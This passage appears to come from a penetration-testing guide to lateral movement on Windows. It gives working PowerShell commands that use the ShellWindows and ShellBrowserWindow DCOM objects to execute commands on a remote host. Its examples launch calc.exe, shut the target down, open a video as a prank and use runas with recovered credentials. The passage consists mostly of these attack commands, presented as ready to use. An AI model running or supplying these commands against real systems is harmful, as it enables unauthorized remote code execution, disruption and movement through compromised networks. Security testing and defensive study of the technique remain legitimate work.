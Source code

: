 ```
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0) 
```

**Example: call shutdown routine (user prompted for confirmation):**

```
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShutDownWindows()
```

**Example troll: launch IE with Sloths in Space (10 hours):**

```
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShellExecute("iexplore.exe","https://www.youtube.com/watch?v=AaxQhNBBSkM","C:\Program Files\Internet Explorer",$null,"1")
```

* * *

## ShellBrowserWindow Object

Functionally the same as the previous method, the ShellBrowserWindow object can be leverage for remote code execution over DCOM

**Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** native .NET calls on Windows

When invoking .NET calls in this fashion, the existing auth token is used. Great for lateral movement from a compromised system, but not if you are remotely accessing a target machine with recovered credentials. The simplest method we have found is to create a new PS Session with runas.

**Example auth:**

```
PS> runas /netonly /user:TESTLAB\josh "powershell.exe" 
```

**Example code execution:**

```
PS> $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```